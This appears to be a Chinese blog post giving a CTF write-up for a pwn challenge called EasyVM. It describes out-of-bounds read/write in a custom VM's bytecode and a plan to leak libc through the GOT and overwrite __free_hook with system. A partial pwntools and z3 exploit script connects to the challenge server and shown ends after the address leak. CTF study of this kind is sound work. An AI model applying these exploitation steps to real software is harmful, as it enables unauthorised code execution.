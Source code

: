```yaml
---
title: 公益CTF
date: 2020-03-09 11:26:49
tags: PWN
---
```


这两天打了这个,做了几道pwn

# EasyVM

一个自定义指令集的VM,逆向可以发现几个功能,分别是输入字节码,执行字节码,gift和退出

保护全开,不能写got表.gift给了一个leak,可以直接算出地址,这里梳理出流程直接用z3解了,在字节码中,可以看到getchar和putchar没有检测下标啊,任意地址读写了

直接读malloc的got表,然后leak libcbase,后面直接写free hook为system,然后将R0和R1寄存器写上字符串,触发free

```
from z3 import *
from pwn import *

#context.log_level="debug"

def decode(enc):
        print "%x"%enc
        R1 = BitVec('R1',32)
        S = Solver()

        R6 = R1
        R1 >>= 0xD
        R1 ^= R6
        R6 = R1
        R1 <<= 9
        R1 &= 0X78F39600
        R1 ^= R6
        R6 = R1
        R1 <<= 0x11
        R1 &= 0X85D40000
        R1 ^= R6
        R6 = R1
        R1 >>= 0X13
        R1 ^= R6

        S.add(R1 == enc)

        if S.check() == sat:
                R1 = BitVec('R1',32)
                return S.model()[R1].as_long()
        else:
                return 0;

#r = process("./EasyVM.bak")
r = remote("121.36.215.224",9999)

def sa(a,b):
        r.sendlineafter(a,b)

sa(">>> ","4")
sa(">>> ","2")
r.recvline()
start =  decode(int(r.recvline(10),16))

if (start & 0xfff) == 0x6c0:
        log.success("[*] start:0x%x"%start)
```